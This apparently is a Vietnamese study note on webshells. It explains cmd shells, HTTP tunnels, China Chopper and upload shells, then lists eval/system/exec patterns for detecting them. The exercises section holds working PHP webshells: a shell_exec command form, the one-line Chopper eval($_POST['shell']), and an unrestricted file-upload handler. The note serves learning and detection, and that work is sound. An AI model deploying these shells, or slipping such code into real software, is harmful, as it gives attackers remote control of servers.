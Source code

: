 # Lý thuyết

1. Webshell

- Webshell là một loại phần mềm độc hại được sử dụng để kiểm soát máy tính nạn nhân qua các dòng lệnh, được viết bằng các ngôn ngữ như PHP, ASP, JSP, Perl, Python, và Ruby. Webshell cho phép kẻ tấn công thực hiện một số hành động như thêm, xóa, sửa đổi tệp, thực thi mã độc hại, thu thập thông tin nạn nhân và có thể kiểm soát máy nạn nhân.

- Khi máy chủ đã bị nhiễm webshell, kẻ tấn công sẽ truy cập vào máy nạn nhân từ xa qua trình duyệt web hoặc các công cụ quản lý tệp.

2. Các loại webshell

2.1. Cmd shell

- Cmd shell là một loại webshell có khả năng thực thi các dòng lệnh thông qua giao diện dòng lệnh của hệ điều hành(thường dùng hàm shell_exec).

2.2. Http tunnel

- HTTP Tunnel là một loại webshell đặc biệt sử dụng giao thức HTTP để truyền tải các lệnh từ kẻ tấn công đến máy chủ và nhận kết quả trả về thông qua các yêu cầu HTTP. Đây là một loại webshell có khả năng vượt qua các giới hạn về tường lửa hoặc các cơ chế an ninh mạng chặn các kết nối bất thường.

2.3. Chooper

- Chooper cho phép tấn công, thực hiện các hoạt động độc hại và kiểm soát từ xa các hệ thống mà đã được xâm nhập. Chooper có kích thước nhỏ nên khó phát hiện.

2.4. Upload shell

- Upload shell là một kỹ thuật tấn công trong đó kẻ tấn công tải lên một webshell (một đoạn mã độc) lên máy chủ mục tiêu thông qua tính năng tải file của một ứng dụng web. Khi webshell được tải lên thành công và thực thi, nó cho phép kẻ tấn công điều khiển máy chủ từ xa, thực hiện các lệnh hệ thống, truy cập file, hoặc cài đặt phần mềm độc hại.

# Bài tập

1. Cmd shell

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>
```

2. Http Tunnel

3. Chooper

```
<?php @eval($_POST['shell']);?>
```

4. Upload shell

```
<?php
if($_SERVER['REQUEST_METHOD'] === 'POST'){
    $targetDir = 'upload';
    $targetFile = $targetDir . basename($_FILES['userfile']['name']);

    if(move_uploaded_file($_FILES['userfile']['tmp_name'], $targetFile)){
        header("Location: $targetFile");
        exit;
    }
}
?>
<form enctype="multipart/form-data" action="" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000">
    Send this file: <input name="userfile" type="file">
    <input type="submit" value="Send">
</form>
```

# Các pattern

1. File PHP
- eval(): webshell eval thực thi lệnh do hacker truyền vào qua các biến trong request. Ví dụ <?php eval($_GET('a')); ?>.
    - eval($_GET('string')); eval($_POST('string')); eval($_REQUEST('string'))
    - eval(encode string)
    - eval('response = '+response+';').
    - eval('$string = '.$string. ';').
    - eval($filter) (bắt từ chuỗi simpleEval($filter)).
    - 'Eval(&$item, &$dataType)', 'Eval($item[$key], $dataType)', 'Eval($value)','Eval($filters, $dataType)'
- $recursive0($params, $level+1)', '$recursive0($params)'
- exec ('sassc -t compressed -I '.$cwd.$bootstrapPath.' -I '.$cwd.portal()
- System()
    - system('/u01/colombo/usr/bin/php -c /u01/colombo/etc/php.ini /u01/colombo/www/crontab/runService.php 59721 Education.CourseResult.Exam.autoMarkExamAll')
    - system("perl ./api/syslog-send.pl \"Syslog filter for ".$fil["mf_log"]." updated by".read_session('SesAccount')."\"");
- curl_exec($ch)
- exec("ifconfig | grep -Eo 'inet (addr:)'
- $class(sfContext::getInstance()
2. Trường hợp file aspx, asp, cs
- eval() Thực thi lệnh truyền vào từ request. Dữ liệu được lấy từ request bằng cách Request.Item['a']
    - eval("DATE_DEBIT")
    - eval(Container.DataItem, "CategoryName")
    - eval("CreatTime", "{0:dd/MM/yyyy (HH:mm:ss),
    - eval("AMT_PAY","{0:#,##0}")  
